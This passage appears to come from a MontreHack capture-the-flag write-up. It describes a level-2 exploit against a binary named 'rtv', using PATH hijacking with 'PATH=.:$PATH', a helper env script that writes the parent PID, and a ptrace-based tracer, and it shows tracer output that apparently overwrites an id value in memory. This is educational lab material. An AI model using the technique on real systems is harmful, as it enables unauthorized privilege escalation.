 ```python
        print("Unhandled exception : {0}".format(event))
        break
```

The setup of our exploit will be as follow :

1. Create an env script that writes PARENTPID to a file named "pid"
2. execute `PATH=.:$PATH rtv`
3. execute rtvtrace.py and attach to the child process

Here is the output of rtvtrace.py when executed.

```
ekse@montrehack:~/level2/$ ./run_rtvtrace.sh
Waiting for pid...
Switch to
[!] attached to 1188
New breakpoint:
New breakpoint:
------------------------------------------------------------
PID: 1188
Signal: SIGCHLD
Child process 1191 exited normally
Signal sent by user 1000
------------------------------------------------------------
interrupted by SIGCHLD
EIP: 0xb775d424L
Send SIGCHLD to
------------------------------------------------------------
PID: 1188
Signal: SIGCHLD
Child process 1199 exited normally
Signal sent by user 1000
------------------------------------------------------------
interrupted by SIGCHLD
EIP: 0xb775d424L
Send SIGCHLD to
------------------------------------------------------------
PID: 1188
Signal: SIGCHLD
Child process 1201 exited normally
Signal sent by user 1000
------------------------------------------------------------
interrupted by SIGCHLD
EIP: 0xb775d424L
Send SIGCHLD to
------------------------------------------------------------
PID: 1188
Signal: SIGCHLD
Child process 1203 exited normally
Signal sent by user 1000
------------------------------------------------------------
interrupted by SIGCHLD
EIP: 0xb775d424L
Send SIGCHLD to
Stopped at
EIP: 0x80487d6L
Current id loc: 0xbff5295cL value : (0,)
Changing data location for write of id...
Stopped at
EIP: 0x8048802L
Process 1188 exited normally
Unhandled exception : None
```
